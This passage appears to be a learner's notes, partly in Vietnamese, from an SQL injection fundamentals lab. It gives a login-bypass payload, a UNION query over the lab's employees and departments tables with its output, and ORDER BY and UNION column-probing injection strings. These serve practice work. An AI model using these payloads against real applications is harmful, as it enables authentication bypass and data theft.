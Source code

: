 ```sql
whatthefuck' or id=5)-- 
```

![](../16_SQL%20Injection%20Fundamentals/images/3.png)

# Union Clause
#### Questions
Connect to the above MySQL server with the 'mysql' tool, and find the number of records returned when doing a 'Union' of all records in the 'employees' table and all records in the 'departments' table.

```sql
select count(*) from (select dept_no, dept_name, 3, 4, 5, 6 from departments union select * from employees) as total;
+----------+
| count(*) |
+----------+
|      663 |
+----------+
1 row in set (0.22 sec)

```

# Union Injection
#### Questions
 Use a Union injection to get the result of 'user()

Kiểm tra số lượng cột của bảng:

```sql
' order by 4-- -
```

hoặc
```sql
whathefuck' UNION select 1,2,3,4-- -
```
